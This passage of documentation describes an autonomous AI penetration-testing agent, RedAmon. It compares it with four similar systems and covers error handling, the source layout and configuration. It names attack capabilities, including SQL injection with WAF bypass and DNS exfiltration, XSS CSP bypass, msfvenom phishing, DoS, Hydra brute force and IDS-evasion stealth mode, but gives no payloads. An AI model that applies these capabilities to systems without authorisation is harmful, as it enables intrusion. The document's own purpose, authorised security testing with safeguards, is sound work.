**What each row in this matrix means.** Persistence and recovery decide *what survives a backend crash*. *LangGraph checkpointing* asks whether the system uses LangGraph's built-in checkpointer (Postgres, Redis, or memory) to snapshot agent state after every node transition. *Temporal-class durable state* asks whether the system uses a workflow orchestrator like Temporal that records each activity's input/output and can replay the workflow deterministically on crash. *JSON / file session auto-save* asks whether the system periodically writes session state to a file so that a manual restart can pick up where it left off. *Workspace / git-checkpoint resume* asks whether the system snapshots a workspace directory (e.g. with git commits) so the operator can resume from a specific point.

**What the comparison reveals.** This is **Shannon's category**, Temporal gives Shannon the strongest durability story in the benchmark. Each agent activity is a Temporal-tracked unit of work; a backend crash mid-run can be resumed by replaying the workflow from the last successful activity boundary, with all intermediate state reconstructed deterministically. Shannon also adds workspace-level git checkpoints so the operator can rewind to any prior point. **RedAmon** is one tier below: its `AsyncPostgresSaver` checkpointer snapshots state after every LangGraph node transition, so state survives a crash, but recovery means re-entering the graph and re-running the current node from scratch (the node's prior partial work is lost). **PentAGI** writes flow state to PostgreSQL but has no automatic resume on backend restart, recovery requires manual operator intervention. **PentestGPT** writes a JSON session file (`~/.pentestgpt/sessions/`) that allows manual rerun from prior context. **Strix** has no persistence whatsoever, a crash loses the entire run. The aggregate (Shannon 2.5, RedAmon 2.0, PentAGI 1.0, PentestGPT 1.0, Strix 0.0) is the most polarised category in the benchmark.

**Operational implications for the operator.** Persistence determines *whether long autonomous runs are viable on infrastructure with any failure rate*. With Shannon, a backend restart mid-run is invisible to the operator, the workflow resumes within seconds of the worker coming back up, with no state loss and no operator action required. With RedAmon, a backend restart is recoverable but requires the operator to click resume; the agent picks up at the last node boundary, losing at most one node's worth of in-flight work. With PentAGI and PentestGPT, manual file-based resume is possible but operationally awkward. With Strix, a crashed run must be restarted from scratch. For overnight or multi-day engagements running on cloud infrastructure where pre-emption, deploys, and rolling restarts are routine, Shannon's Temporal durability is decisive, no other system can promise zero-touch recovery. RedAmon's checkpointer is sufficient for engagements where the backend is stable enough that resume is occasional rather than routine; for chaos-testing-grade reliability, the Temporal model is genuinely stronger.

### 13. LLM Provider Flexibility

How portable the agent is across model providers.

| Capability | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|
| Multi-provider native support (≥ 5 families) | ⚠️ | ✅ | ❌ | ✅ | ❌ |
| litellm / unified abstraction | ❌ | ❌ | ❌ | ✅ | ❌ |
| OpenAI-compatible endpoint support | ✅ | ✅ | ⚠️ | ✅ | ❌ |
| Per-agent / per-task model override | ⚠️ | ✅ | ❌ | ✅ | ✅ |
| **Subtotal (max 4.0)** | **2.0** | **3.0** | **0.5** | **4.0** | **1.0** |

**What each row in this matrix means.** LLM provider flexibility decides *whether the platform can swap models without code changes*. *Multi-provider native support (≥ 5 families)* asks whether the system has first-class integration with at least five distinct provider families (OpenAI, Anthropic, Google, AWS Bedrock, Mistral, etc.). *litellm / unified abstraction* asks whether the system uses litellm or a similar unified library that auto-translates between provider APIs and exposes a single interface. *OpenAI-compatible endpoint support* asks whether the system can talk to any OpenAI-compatible endpoint (vLLM, Ollama, LiteLLM proxy, etc.), important for self-hosted models. *Per-agent / per-task model override* asks whether different agents or different tasks can use different models (e.g. a cheap model for the orchestrator, an expensive model for the exploitation specialist).

**What the comparison reveals.** This is **Strix's category** by a clear margin. litellm integration gives Strix immediate access to 100+ models across every major provider, with per-task reasoning-effort configuration and unified handling of thinking tokens, tool calling, and streaming. **PentAGI** has the broadest native list, 12+ providers (OpenAI, Anthropic, Gemini, AWS Bedrock, Ollama, DeepSeek, GLM, Kimi, Qwen, plus custom HTTP endpoints) all wired directly into its Go LLM layer, plus per-agent model overrides via its `MsgchainType` configuration. **RedAmon** supports its primary providers (Anthropic, OpenAI) natively with OpenAI-compatible endpoint support, but does not yet have litellm-style unified abstraction and only partially supports per-task overrides (the root agent and fireteam members can use different models, but it requires explicit configuration). **Shannon** and **PentestGPT** (current version) are **Claude-only**, both depend on the Claude Agent SDK, which is Anthropic-exclusive; switching providers would require rewriting the LLM layer entirely. The aggregate (Strix 4.0, PentAGI 3.0, RedAmon 2.0, Shannon 1.0, PentestGPT 0.5) reflects how decisively litellm wins this dimension.

**Operational implications for the operator.** Provider flexibility decides *what the operator does when the chosen model becomes unavailable, expensive, or insufficient*. With Strix, swapping from Claude to GPT-4 is a configuration change. With PentAGI, swapping is a configuration change for any of 12 supported providers. With RedAmon, swapping between Anthropic and OpenAI works out of the box; adding a new provider family would require code work. With Shannon and PentestGPT, "swapping" means migrating to a different system entirely. For an organisation that wants to compare model performance across providers, evaluate cost optimisation by routing different agents to different tiers, or hedge against provider availability incidents, Strix is the operationally most flexible choice; PentAGI a strong second. For organisations standardised on Claude (who consider Anthropic-exclusive integration a feature rather than a limitation), Shannon and PentestGPT are perfectly reasonable.

### 14. Finding-Quality Primitives

How findings are validated, deduplicated, and ranked before they reach the report.

| Capability | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|
| LLM-based finding deduplication | ✅ | ❌ | ❌ | ✅ | ⚠️ |
| Mandatory PoC validation before reporting | ❌ | ❌ | ❌ | ✅ | ✅ |
| Confidence scoring on findings | ✅ | ❌ | ❌ | ✅ | ✅ |
| Schema-validated finding queues | ❌ | ❌ | ❌ | ❌ | ✅ |
| **Subtotal (max 4.0)** | **2.0** | **0.0** | **0.0** | **3.0** | **3.5** |

**What each row in this matrix means.** Finding-quality primitives decide *how reliable the agent's reported findings are*. *LLM-based finding deduplication* asks whether the system uses an LLM (not just regex matching) to detect when the agent has reported the same finding twice in different words. *Mandatory PoC validation before reporting* asks whether the system enforces, at the code level, not just the prompt, that no finding can be reported without a verified proof-of-concept. *Confidence scoring on findings* asks whether each finding carries an explicit confidence level (numeric or categorical) that the operator can use to triage. *Schema-validated finding queues* asks whether findings flow through a strict typed pipeline that rejects malformed entries before they reach the report.

**What the comparison reveals.** This is **Shannon's category, with Strix close behind**. Shannon enforces a hard code-level gate: exploitation only runs if the vulnerability-analysis phase produced a structured `Vulnerability` object that passes Zod schema validation AND the corresponding deliverable file exists (`queue-validation.ts:105-110` enforces the symmetric check). No PoC, no exploit. The schema is per-vulnerability-type with required fields including confidence (`queue-schemas.ts:84-88`). **Strix** has functional LLM-based deduplication (`strix/llm/dedupe.py` uses XML-parsed responses, lines 111-139) and verdict logic in its exploitation checker, plus confidence scoring on findings. **RedAmon** has confidence scoring and dedup as part of its `OutputAnalysisInline` schema, but does not currently mandate PoC validation as a release gate, the agent can report a finding before a PoC is verified, which is a real gap acknowledged in the chapter's caveats. **PentAGI** has none of these primitives in code (no dedup, no PoC gate, no confidence scoring beyond what ends up in the report's prose). **PentestGPT** has flag detection via regex (HTB / CTF / `flag{}` / 32-char hex) but no PoC validation or confidence scoring, appropriate for CTF-style sessions but not for professional vulnerability reporting. The aggregate (Shannon 3.5, Strix 3.0, RedAmon 2.0, PentestGPT 0.0, PentAGI 0.0) puts Shannon clearly on top.

**Operational implications for the operator.** Finding-quality primitives decide *how much manual review the operator must perform on the agent's report before delivering it to the customer*. With Shannon's mandatory PoC gate, the operator can trust that every reported vulnerability has been demonstrated working, no false positives sneak through to the report. With Strix's deduplication and confidence scoring, the operator can sort findings by confidence and quickly review the low-confidence ones. With RedAmon, the operator gets confidence scoring to triage by but must still manually verify findings before delivery, the agent will report what it believes it has found, even if a PoC is missing. With PentAGI and PentestGPT, the operator must verify every finding manually because there is no in-platform quality gate. For an organisation delivering pentests to paying customers where reputational damage from false positives is high, Shannon's PoC-mandatory architecture is genuinely the strongest in the benchmark, and a feature RedAmon should adopt. The gap is a known design priority for the next major release.

### Aggregate Coverage

Sum of all 14 category subtotals, normalised to 100 %.

| Category | Max | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|:---:|
| 1. Orchestration & topology | 9.0 | 5.5 | 2.5 | 1.0 | 4.0 | 4.0 |
| 2. Control flow | 6.0 | 4.0 | 2.5 | 3.5 | 2.5 | 2.0 |
| 3. Task decomposition | 5.0 | 2.0 | 1.5 | 1.0 | 1.5 | 1.5 |
| 4. Memory & context | 8.0 | 6.0 | 4.0 | 1.0 | 4.0 | 1.5 |
| 5. Tool selection & use | 8.0 | 6.0 | 2.5 | 1.0 | 2.0 | 4.5 |
| 6. Self-correction & recovery | 7.0 | 5.5 | 4.5 | 1.5 | 3.0 | 4.0 |
| 7. Guardrails & scope | 8.0 | 8.0 | 0.0 | 0.0 | 1.0 | 2.0 |
| 8. Human-in-the-loop | 5.0 | 4.5 | 1.5 | 3.0 | 1.5 | 0.5 |
| 9. Isolation & multi-tenancy | 4.0 | 4.0 | 3.0 | 2.0 | 1.5 | 2.0 |
| 10. Domain knowledge integration | 5.0 | 5.0 | 2.0 | 0.5 | 2.0 | 1.0 |
| 11. Observability & cost | 5.0 | 2.5 | 5.0 | 3.5 | 4.0 | 2.0 |
| 12. Persistence & recovery | 4.0 | 2.0 | 1.0 | 1.0 | 0.0 | 2.5 |
| 13. LLM provider flexibility | 4.0 | 2.0 | 3.0 | 0.5 | 4.0 | 1.0 |
| 14. Finding-quality primitives | 4.0 | 2.0 | 0.0 | 0.0 | 3.0 | 3.5 |
| **TOTAL** | **82.0** | **59.0** | **33.0** | **19.5** | **34.0** | **32.0** |
| **Coverage** | 100 % | **72.0 %** | **40.2 %** | **23.8 %** | **41.5 %** | **39.0 %** |
| **Rank** |, | **1** | 3 | 5 | **2** | 4 |

### Where Each System Leads, An Impartial Read

The aggregate score is the headline; the **leadership map** is the substance. Each system has at least one category where it sits at the top of the table, and recognising those leads honestly is the only way the comparison is credible.

**RedAmon leads on:** Guardrails (8.0 / 8.0; nearest 2.0), Domain knowledge (5.0 / 5.0; nearest 2.0), Multi-tenancy (4.0 / 4.0; nearest 3.0), Tool selection (6.0 / 8.0; nearest 4.5), Memory (6.0 / 8.0; nearest tied at 4.0), Human-in-the-loop (4.5 / 5.0; nearest 3.0), Task decomposition (2.0 / 5.0; nearest 1.5), Control flow (4.0 / 6.0; nearest 3.5). The pattern is **enterprise-engagement-readiness**: safety, scope, multi-tenant isolation, structured intelligence, layered human oversight.

**PentAGI leads on:** Observability (5.0 / 5.0; the full Langfuse + OpenTelemetry + Jaeger + VictoriaMetrics + Loki stack ships out of the box). It also has the broadest LLM provider list among the others (12+ native, with first-class Bedrock and Ollama support) and the most elaborate prompt-driven agent pool, 15 specialised `MsgchainType` roles (`primary_agent`, `pentester`, `coder`, `reporter`, `reflector`, `enricher`, `searcher`, `installer`, `memorist`, `adviser`, `summarizer`, `tool_call_fixer`, `assistant`, `generator`, `refiner`). PentAGI is the right pick for an operator who needs deep run-time telemetry, provider portability, and a richly differentiated agent vocabulary; it does not, however, ship any scope guardrails or tool-confirmation gates and assumes the operator owns those.

**PentestGPT leads on:** Pause/resume UX through its TUI, with mid-run instruction injection via keyboard shortcuts. It is the cleanest single-agent thin-wrapper implementation in the benchmark, unmatched at what it sets out to do, but architecturally the shallowest.

**Strix leads on:** LLM provider flexibility (4.0 / 4.0; litellm gives instant access to 100+ models with per-task overrides), dynamic agent topology (only system that spawns agents at runtime), and semantic memory compression. Strix is the right pick for research-style work where the operator wants the agent to *invent* its own coordination structure.

**Shannon leads on:** Persistence and recovery (Temporal durable workflow), finding-quality primitives (Zod + JSON Schema strict validation, mandatory PoC gating), and conditional pipeline execution. Shannon is the right pick for engagements where every reported finding must be PoC-validated and where backend reliability is non-negotiable.

### What This Comparison Does Not Measure

This is a **feature-coverage matrix**, not a quality verdict. Three caveats:

1. **Depth differs.** Two ✅ entries on the same row can implement the feature very differently. PentAGI's "structured output validation" is JSON-Schema-based; Shannon's combines Zod and JSON Schema draft-07; both score ✅ but Shannon's is genuinely stricter. The matrices are an inventory, not a depth audit.
2. **Operational outcomes are not in this table.** Time-to-first-finding, false-positive rate, cost per target, scope-drift incidents, these are end-to-end metrics that require running each system against the same target list with the same model and the same time budget. The internal benchmark's §6 holds the harness for those measurements; the published numbers are pending.
3. **Authorship bias is real.** This benchmark was authored by the RedAmon team. The categories where RedAmon's lead is widest (Guardrails 8.0 vs 2.0, Domain Knowledge 5.0 vs 2.0) are also the categories the authors know best in their own codebase. External independent scoring is invited; the underlying audit data and the systems' source repositories are linked above so any reviewer can re-score.

The comparison should be read as: *given identical tools, identical models, and identical targets, this is which agentic primitives each system brings to the table*. What the operator does with those primitives, and which set of primitives matters most for their engagement, is the operator's call.

---

## Error Handling & Resilience

This chapter describes *how the platform stays alive when individual components fail*. Three categories of failure dominate any LLM-driven system: the LLM emits malformed output that fails schema validation; an external tool returns garbage or hangs; the database (Neo4j or Postgres) becomes momentarily unreachable. Each category has its own recovery strategy, and getting them right is what separates an agent that runs reliably for hours from one that crashes after every transient hiccup.

For **LLM response parsing**, the platform uses a multi-layered fallback ladder. The LLM is instructed to emit JSON that conforms to the `LLMDecision` Pydantic schema; if the JSON is malformed, the parser tries to extract whatever fields it can; if validation still fails, a preprocessing step removes the most common error sources (empty optional objects, malformed nested structures); if validation still fails after preprocessing, a fallback `LLMDecision(action=complete, error=<details>)` is constructed so the graph terminates cleanly rather than crashing. The retry budget for parse failures is `LLM_PARSE_MAX_RETRIES` (default 3).

For **Metasploit output cleaning**, the persistent msfconsole process emits ANSI escape sequences, control characters, and garbled echo lines that confuse the agent if passed through raw. A dedicated cleaning pipeline strips ANSI codes, normalises carriage returns, removes control characters, filters echo lines, and uses timing-based output detection (waiting for a quiet period) to determine when a command is truly complete rather than just paused. For **Neo4j query failures**, the text-to-Cypher pipeline retries up to `CYPHER_MAX_RETRIES` (default 3) times, attaching the previous error message as additional context so the LLM can correct its query. For **MCP server connection issues**, the `MCPToolsManager.get_tools()` method uses exponential backoff to handle the case where the Kali sandbox container is still starting up when the agent comes online. The sections below detail each of these mechanisms.

### LLM Response Parsing

```mermaid
flowchart TB
    RESPONSE[LLM Response Text]

    EXTRACT[Extract JSON from response]
    EXTRACT --> PARSE{Parse JSON?}

    PARSE -->|Success| VALIDATE[Pydantic validation]
    PARSE -->|Fail| FALLBACK_JSON[Try extract partial fields]

    VALIDATE -->|Success| DECISION[LLMDecision object]
    VALIDATE -->|Fail| PREPROCESS[Preprocess: remove empty objects<br/>user_question, phase_transition, output_analysis]

    PREPROCESS --> VALIDATE2[Retry validation]
    VALIDATE2 -->|Success| DECISION
    VALIDATE2 -->|Fail| FALLBACK_DECISION[Fallback LLMDecision<br/>action=complete with error]

    FALLBACK_JSON --> FALLBACK_ANALYSIS[Fallback: raw tool output<br/>used as interpretation]
    style PARSE fill:#5a5a5a,color:#fff,stroke:#2d2d2d
```

### Metasploit Output Cleaning

```mermaid
flowchart LR
    RAW[Raw msfconsole output]

    ANSI[Remove ANSI escape sequences]
    CR[Handle carriage returns]
    CTRL[Remove control characters]
    ECHO[Filter garbled echo lines]
    TIMING[Timing-based output detection<br/>Wait for quiet period]

    RAW --> ANSI --> CR --> CTRL --> ECHO --> TIMING --> CLEAN[Clean output]
```

### Neo4j Query Retry

```mermaid
flowchart TB
    QUESTION[Natural language question]

    GEN[LLM generates Cypher]
    EXEC[Execute query]

    EXEC --> CHECK{Success?}
    CHECK -->|Yes| RESULT[Return results]
    CHECK -->|No| RETRY_CHECK{Retries < MAX?}

    RETRY_CHECK -->|Yes| CONTEXT[Add error context to prompt]
    RETRY_CHECK -->|No| ERROR[Return error message]

    CONTEXT --> GEN
    style CHECK fill:#5a5a5a,color:#fff,stroke:#2d2d2d
    style RETRY_CHECK fill:#5a5a5a,color:#fff,stroke:#2d2d2d
```

---

## Codebase Layout

This section is a **map of the source tree** for engineers who need to find a specific piece of behaviour quickly. Each entry points to the file or directory that owns the corresponding responsibility. For the *narrative* of what each subsystem does and why it exists, see [Core Components](#core-components) and the per-feature chapters that follow it.

### File Structure

| File / Directory | Purpose |
|------------------|---------|
| `orchestrator.py` | Main LangGraph agent with ReAct pattern |
| `state.py` | Pydantic models and TypedDict state definitions |
| `project_settings.py` | Database-driven configuration (fetches from webapp API) |
| `tools.py` | MCP and Neo4j tool management |
| `api.py` | REST API endpoints |
| `websocket_api.py` | WebSocket streaming API |
| `utils.py` | Utility functions |
| `hard_guardrail.py` | Deterministic non-disableable target blocking (TLD patterns + ~200 IGO domains) |
| `guardrail.py` | LLM-based soft guardrail (well-known commercial sites, IP-mode reverse DNS) |
| `skill_loader.py` | Markdown skill discovery and YAML frontmatter parsing |
| `skills/` | User attack skills (markdown files, classified as `user_skill:<id>`) |
| `community-skills/` | Chat skills (on-demand reference docs injected via `/skill`) |
| `report_summarizer.py` | Post-engagement narrative synthesis (6 report sections) |
| `chat_persistence.py` | Async Postgres helpers for `ChatMessage` and conversation rows |
| `key_rotation.py` | Round-robin API key rotator for rate-limit avoidance |
| `model_providers.py` | LLM provider factory (Anthropic / OpenAI / etc.) |
| `logging_config.py` | Structured logging with rotation |
| `prompts/` | System prompts package (phase-aware, attack-path-specific) |
| `prompts/base.py` | Core ReAct, analysis, Deep Think, and report prompts |
| `prompts/classification.py` | Attack path classification prompt |
| `prompts/cve_exploit_prompts.py` | CVE (MSF) exploitation workflow & payload guidance |
| `prompts/brute_force_credential_guess_prompts.py` | Brute force / credential attack workflow |
| `prompts/sql_injection_prompts.py` | SQL injection / sqlmap / WAF bypass / OOB DNS exfil |
| `prompts/xss_prompts.py` | XSS reflected/stored/DOM with dalfox + CSP bypass |
| `prompts/phishing_social_engineering_prompts.py` | msfvenom + handler + delivery |
| `prompts/denial_of_service_prompts.py` | hping3 / slowhttptest / MSF DoS modules |
| `prompts/unclassified_prompts.py` | Generic phase guidance for `<term>-unclassified` paths |
| `prompts/post_exploitation.py` | Post-exploitation prompts (statefull, stateless) |
| `prompts/stealth_rules.py` | Stealth-mode rules block (highest-priority prompt prefix) |
| `prompts/tool_registry.py` | Single source of truth for tool metadata (names, purposes, args, descriptions) |
| `orchestrator_helpers/` | Helper modules extracted from orchestrator |
| `orchestrator_helpers/config.py` | Session config, checkpointer, thread ID management |
| `orchestrator_helpers/phase.py` | Attack path classification & phase determination |
| `orchestrator_helpers/parsing.py` | LLM response parsing (decisions & inline analysis) |
| `orchestrator_helpers/streaming.py` | Streaming event aggregation (`emit_streaming_events`) |
| `orchestrator_helpers/member_streaming.py` | Scoped callback proxy that renames every `on_tool_*` to `on_fireteam_tool_*` and injects `fireteam_id` / `member_id` / `wave_id` |
| `orchestrator_helpers/json_utils.py` | JSON serialization with datetime support |
| `orchestrator_helpers/chain_graph_writer.py` | EvoGraph persistence, attack chain nodes, bridge relationships, and cross-session queries to Neo4j |
| `orchestrator_helpers/fireteam_member_graph.py` | Compiled 5-node member subgraph (think / execute_tool / execute_plan / await_confirmation / complete) |
| `orchestrator_helpers/fireteam_confirmation_registry.py` | In-process `(session, wave, member) → asyncio.Event` registry powering parallel per-member confirmations |
| `orchestrator_helpers/debug.py` | Graph visualization (Mermaid PNG export) |
| `orchestrator_helpers/nodes/initialize_node.py` | Session setup, guardrail check, attack-path classification, prior-chain loading |
| `orchestrator_helpers/nodes/think_node.py` | ReAct think + Deep Think pre-step + RoE/stealth/scope-guardrail injection |
| `orchestrator_helpers/nodes/execute_tool_node.py` | Sequential tool execution with progress streaming |
| `orchestrator_helpers/nodes/execute_plan_node.py` | Wave execution, parallel tool plan runner via `asyncio.gather()` |
| `orchestrator_helpers/nodes/approval_nodes.py` | `await_approval` / `process_approval` / `await_question` / `process_answer` |
| `orchestrator_helpers/nodes/tool_confirmation_nodes.py` | `await_tool_confirmation` / `process_tool_confirmation` |
| `orchestrator_helpers/nodes/generate_response_node.py` | Final-report synthesis when task completes or aborts |
| `orchestrator_helpers/nodes/fireteam_deploy_node.py` | Fireteam fan-out, spawns N concurrent member subgraphs via `asyncio.gather()` |
| `orchestrator_helpers/nodes/fireteam_collect_node.py` | Fireteam fan-in, merges per-member `target_info` and findings back into parent state, auto-completes matching TODOs |
| `orchestrator_helpers/nodes/fireteam_member_think_node.py` | Member ReAct think node + `fireteam_await_confirmation_node` (parks member on `asyncio.Event` for per-member dangerous-tool approvals) |
| `orchestrator_helpers/nodes/process_fireteam_confirmation_node.py` | Legacy router stub kept for compile-validity (not reached in live flow) |
| `cypherfix_triage/` | Companion orchestrator: clusters and scores findings post-engagement |
| `cypherfix_codefix/` | Companion orchestrator: edits source code to remediate findings (Claude-Code-style GitHub toolkit) |
| `tests/` | pytest suites (fireteam, deep think, plan mutex, tool stop, token tracking, regressions) |

### Key Classes

```mermaid
classDiagram
    class AgentOrchestrator {
        +llm: ChatOpenAI
        +tool_executor: PhaseAwareToolExecutor
        +graph: StateGraph
        +_guidance_queue: asyncio.Queue
        +initialize()
        +invoke(question, user_id, project_id, session_id)
        +invoke_with_streaming(question, ..., streaming_callback, guidance_queue)
        +resume_after_approval(...)
        +resume_after_answer(...)
        +resume_after_approval_with_streaming(..., guidance_queue)
        +resume_after_answer_with_streaming(..., guidance_queue)
        +resume_execution_with_streaming(..., guidance_queue)
    }

    class PhaseAwareToolExecutor {
        +mcp_manager: MCPToolsManager
        +graph_tool: Neo4jToolManager
        +phase_tools: Dict
        +execute(tool_name, tool_args, phase)
        +execute_with_progress(tool_name, tool_args, phase, progress_callback)
        +get_tools_for_phase(phase)
    }

    class MCPToolsManager {
        +servers: List[MCPServer]
        +tools_cache: Dict
        +get_tools(max_retries, retry_delay)
        +call_tool(tool_name, args)
    }

    class Neo4jToolManager {
        +driver: Neo4jDriver
        +llm: ChatOpenAI
        +query_graph(question, user_id, project_id)
    }

    class StreamingCallback {
        <<interface>>
        +on_thinking(iteration, phase, thought, reasoning)
        +on_tool_start(tool_name, tool_args, wave_id?)
        +on_tool_output_chunk(tool_name, chunk, is_final, wave_id?)
        +on_tool_complete(tool_name, success, output_summary, actionable_findings, recommended_next_steps, wave_id?)
        +on_plan_start(wave_id, plan_rationale, tools)
        +on_plan_complete(wave_id, total, successful, failed)
        +on_plan_analysis(wave_id, interpretation, actionable_findings, recommended_next_steps)
        +on_phase_update(current_phase, iteration_count, attack_path_type)
        +on_deep_think(trigger_reason, analysis, iteration, phase)
        +on_approval_request(approval_request)
        +on_question_request(question_request)
        +on_response(answer, iteration_count, phase, task_complete)
        +on_execution_step(step)
        +on_error(error_message, recoverable)
        +on_task_complete(message, final_phase, total_iterations)
        +on_file_ready(file_info)
    }

    AgentOrchestrator --> PhaseAwareToolExecutor
    AgentOrchestrator --> StreamingCallback
    PhaseAwareToolExecutor --> MCPToolsManager
    PhaseAwareToolExecutor --> Neo4jToolManager
```

---

## Configuration Reference

This chapter is the **canonical reference for every setting that controls agent behaviour**. Configuration in RedAmon is **database-driven**: when `PROJECT_ID` and `WEBAPP_API_URL` are set, the agent fetches its settings from PostgreSQL via the webapp API at startup, so each project can have its own values without redeploying the agent container. When these env vars are not set (development, standalone use, automated tests), `DEFAULT_AGENT_SETTINGS` provides fallback values. The implication is that operators rarely edit code or environment files to change agent behaviour, they edit project settings in the webapp UI, and the changes take effect on the next session.

The settings span twelve thematic groups: model and prompt selection (`OPENAI_MODEL`, custom system prompts per phase), iteration and budget caps (`MAX_ITERATIONS`, `EXECUTION_TRACE_MEMORY_STEPS`, `TOOL_OUTPUT_MAX_CHARS`), human-in-the-loop approvals (`REQUIRE_APPROVAL_FOR_*`, `REQUIRE_TOOL_CONFIRMATION`), Deep Think and stealth toggles, fireteam knobs (concurrency cap, member iteration budget, wave timeout), guardrail flags (`AGENT_GUARDRAIL_ENABLED`, `IP_MODE`, `TARGET_DOMAIN`), tool registry overrides (`TOOL_PHASE_MAP`, `KALI_INSTALL_*`), per-attack-skill toggles (XSS dalfox, SQLi sqlmap level/risk, DoS limits, Hydra threading), Knowledge Base settings (`KB_*` family), Rules of Engagement (the ~35 `ROE_*` settings encoding a customer engagement contract), session config for stateful exploitation (`LHOST`, `LPORT`, `BIND_PORT_ON_TARGET`, `PAYLOAD_USE_HTTPS`, tunnel toggles), and observability (`LOG_MAX_MB`, `LOG_BACKUP_COUNT`).

The tables below list every setting with its default value and a one-line description. For settings whose meaning is non-obvious from the name, the relevant feature chapter (linked from the description) provides the detailed explanation. The environment variables section at the end lists the OS-level variables that must be set for the agent to start at all (LLM API keys, Neo4j credentials, MCP server URLs).

### Settings Source: `project_settings.py`

Configuration is now **database-driven**. When `PROJECT_ID` and `WEBAPP_API_URL` environment variables are set, settings are fetched from PostgreSQL via the webapp API. Otherwise, `DEFAULT_AGENT_SETTINGS` provides fallback values for standalone usage.

```mermaid
flowchart LR
    DB[(PostgreSQL)] --> API[Webapp API<br/>/api/projects/:id]
    API --> PS[project_settings.py<br/>get_setting]
    PS --> ORCH[Orchestrator]
    PS --> PROMPTS[Prompts]
    PS --> TOOLS[Tools]

    DEFAULTS[DEFAULT_AGENT_SETTINGS] -.->|fallback| PS
```

### Key Parameters

| Parameter | Default | Description |
|-----------|---------|-------------|
| `OPENAI_MODEL` | `"claude-opus-4-6"` | LLM model for reasoning |
| `MAX_ITERATIONS` | `100` | Maximum ReAct loop iterations |
| `EXECUTION_TRACE_MEMORY_STEPS` | `100` | How many steps to include in LLM context |
| `TOOL_OUTPUT_MAX_CHARS` | `20000` | Truncate tool output for LLM analysis |
| `REQUIRE_APPROVAL_FOR_EXPLOITATION` | `true` | Require user approval for exploitation phase |
| `REQUIRE_APPROVAL_FOR_POST_EXPLOITATION` | `true` | Require user approval for post-exploitation |
| `REQUIRE_TOOL_CONFIRMATION` | `true` | Require user confirmation before executing dangerous tools (nmap, nuclei, metasploit, hydra, kali_shell, etc.) |
| `ACTIVATE_POST_EXPL_PHASE` | `true` | Enable post-exploitation phase |
| `POST_EXPL_PHASE_TYPE` | `"statefull"` | `"stateless"` or `"statefull"` session mode |
| `LHOST` | `""` | Attacker IP for reverse payloads (empty = bind mode) |
| `LPORT` | `null` | Attacker port for reverse payloads |
| `BIND_PORT_ON_TARGET` | `4444` | Port opened on target for bind payloads |
| `PAYLOAD_USE_HTTPS` | `false` | Use HTTPS for staged payloads |
| `HYDRA_ENABLED` | `true` | Enable/disable THC Hydra brute force tool |
| `HYDRA_THREADS` | `16` | Parallel connections per target (-t). SSH max 4, RDP max 1 |
| `HYDRA_WAIT_BETWEEN_CONNECTIONS` | `0` | Seconds between connections per task (-W) |
| `HYDRA_CONNECTION_TIMEOUT` | `32` | Max seconds to wait for response (-w) |
| `HYDRA_STOP_ON_FIRST_FOUND` | `true` | Stop on first valid credential (-f) |
| `HYDRA_EXTRA_CHECKS` | `"nsr"` | Extra checks: n=null, s=login-as-pass, r=reversed (-e) |
| `HYDRA_VERBOSE` | `true` | Show each login attempt (-V) |
| `HYDRA_MAX_WORDLIST_ATTEMPTS` | `3` | Max wordlist strategies before giving up |
| `DEEP_THINK_ENABLED` | `true` | Enable strategic Deep Think pre-step (1st iter, phase transition, unproductive streak, LLM self-request) |
| `PRODUCTIVITY_AUDIT_WINDOW` | `6` | How many recent execution-trace steps the productivity loop detector considers |
| `UNPRODUCTIVE_STREAK_THRESHOLD` | `3` | Count of unproductive steps (LLM verdict OR keyword failure) in the window that triggers Deep Think + pivot warning |
| `STEALTH_MODE` | `false` | Prepend stealth-mode rules to system prompt (slow scans, low noise, IDS evasion) |
| `AGENT_GUARDRAIL_ENABLED` | `true` | Soft LLM-based target guardrail + scope-reminder injection. Hard guardrail is non-disableable |
| `IP_MODE` | `false` | Treat project as IP-scoped (skips domain hard-block, runs soft guardrail over IP→hostname resolution) |
| `TARGET_DOMAIN` | `""` | Project's authorised target, drives the scope-guardrail prompt |
| `PERSISTENT_CHECKPOINTER` | `true` | Use AsyncPostgresSaver for state checkpointing (prereq for `FIRETEAM_ENABLED`) |
| `FIRETEAM_ENABLED` | `true` | Master switch for fireteam fan-out. When off, `deploy_fireteam` is stripped from the LLM action vocabulary |
| `FIRETEAM_MAX_CONCURRENT` | `5` | `asyncio.Semaphore` permits during a wave |
| `FIRETEAM_MAX_MEMBERS` | `5` | Hard cap on members per wave |
| `FIRETEAM_MEMBER_MAX_ITERATIONS` | `20` | Per-member ReAct iteration budget |
| `FIRETEAM_TIMEOUT_SEC` | `1800` | Wall-clock ceiling per wave (gather timeout) |
| `FIRETEAM_CONFIRMATION_TIMEOUT_SEC` | `600` | Per-member confirmation wait before auto-reject |
| `FIRETEAM_ALLOWED_PHASES` | `["informational","exploitation","post_exploitation"]` | Phases in which the agent may deploy a fireteam |
| `INFORMATIONAL_SYSTEM_PROMPT` | `""` | Custom system prompt injected during informational phase |
| `EXPL_SYSTEM_PROMPT` | `""` | Custom system prompt injected during exploitation phase |
| `POST_EXPL_SYSTEM_PROMPT` | `""` | Custom system prompt injected during post-exploitation phase |
| `CYPHER_MAX_RETRIES` | `3` | Neo4j text-to-Cypher retry limit |
| `CREATE_GRAPH_IMAGE_ON_INIT` | `false` | Export LangGraph structure as PNG on startup |
| `TOOL_PHASE_MAP` | *(see below)* | Per-tool phase access control (DB-driven) |
| `ATTACK_SKILL_CONFIG` | all built-ins enabled | Per-built-in skill on/off toggle (`{builtIn: {cve_exploit: true, ...}}`) |
| `USER_ATTACK_SKILLS` | `[]` | List of user-skill ids (`vulnerabilities/ssrf`, etc.) loaded from DB |
| `XSS_DALFOX_ENABLED` | `true` | Enable dalfox WAF evasion in the XSS skill |
| `XSS_BLIND_CALLBACK_ENABLED` | `false` | Allow interactsh OOB blind XSS callbacks |
| `XSS_CSP_BYPASS_ENABLED` | `true` | Include CSP bypass guidance in the XSS prompt |
| `SQLI_LEVEL` | `1` | sqlmap `--level` (1-5) |
| `SQLI_RISK` | `1` | sqlmap `--risk` (1-3) |
| `SQLI_TAMPER_SCRIPTS` | `""` | Comma-separated tamper scripts |
| `DOS_MAX_DURATION` | `60` | Max seconds per DoS attempt |
